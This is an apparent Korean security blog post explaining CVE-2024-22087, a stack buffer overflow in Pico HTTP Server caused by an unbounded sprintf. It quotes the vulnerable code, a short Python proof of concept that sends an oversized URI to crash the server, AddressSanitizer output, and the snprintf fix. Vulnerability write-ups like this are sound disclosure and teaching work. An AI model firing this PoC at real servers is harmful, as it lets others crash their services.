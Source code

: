 ```yaml
---
title: "[하루한줄] CVE-2024-22087: Pico HTTP Server의 Stack Buffer Overflow 취약점"
author: ogu123
tags: [BOF, Pico HTTP Server, ogu123]
categories: [1day1line]
date: 2024-02-19 17:00:00
cc: true
index_img: /img/1day1line.png
---
```


## URL

[Remote buffer overflow in main.c](https://github.com/foxweb/pico/issues/31)

## Target

- Pico HTTP Server < 7a5e4e2 이전 커밋

## Explain

Unix 환경에서 웹 서비스를 호스팅 할 수 있는 Pico HTTP Server에서 Stack Buffer Overflow 취약점이 발생했습니다.

IoT 기기나 임베디드 시스템에 경우 메모리 보호 기법이 부족하거나 전혀 없는 경우가 많아, Pico HTTP Server를 사용하는 경우 원격 코드 실행으로 이어질 수 있습니다.


```
GET(uri) {
  char file_name[255];
  sprintf(file_name, "%s%s", PUBLIC_DIR, uri);
```
취약점은 `main.c` 파일의 81번 줄 `sprintf` 함수에서 발생했습니다.

`sprintf` 함수는 PUBLIC_DIR과 uri 문자열을 결합하여 file_name 배열에 저장합니다. 이때, file_name 배열 크기보다 큰 uri를 보낼 경우 Stack Buffer Overflow가 트리거됩니다.

```
#!/usr/bin/env python3

import socket

sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sock.connect(("localhost", 8000))
sock.send(b"GET /" + b"C" * 2000000 + b"HTTP/1.1\r\nHost: localhost:8000\r\n\r\n")
response = sock.recv(4096)
sock.close()
```
위 PoC는 서버로 file_name 배열의 크기보다 큰 uri를 보내는 코드입니다.

이를 실행시켜 취약점을 트리거 해보고 Address Sanitizer로 확인해 보겠습니다.

```
==960119==ERROR: AddressSanitizer: stack-buffer-overflow on address 0x7f214c10015f at pc 0x7f214e09215c bp 0x7ffe88c08220 sp 0x7ffe88c079e0
WRITE of size 65487 at 0x7f214c10015f thread T0
    #0 0x7f214e09215b in __interceptor_vsprintf ../../../../src/libsanitizer/sanitizer_common/sanitizer_common_interceptors.inc:1765
    #1 0x7f214e09233e in __interceptor_sprintf ../../../../src/libsanitizer/sanitizer_common/sanitizer_common_interceptors.inc:1808
    #2 0x556476f2cd71 in route /home/kali/projects/fuzzing/pico/main.c:81
    ...
```
PoC 실행 결과, `0x7f214c10015f` 주소에서 65,487 byte를 WRITE 수행 중 Stack Buffer Overflow가 발생했습니다.

발생 위치는 main.c의 81번 줄로 uri가 `sprintf` 함수를 통해 file_name 배열에서 overflow가 일어났다는 것을 알 수 있습니다.


![](cve-2024-22087/image1.png)

해당 취약점은 저장될 문자열의 최대 길이를 지정할 수 있는 `snprintf` 함수를 사용하는 것으로 [패치](https://github.com/foxweb/pico/commit/e2d172fc2c1384589038fb89dff4d6b65a13bb90)되었습니다.

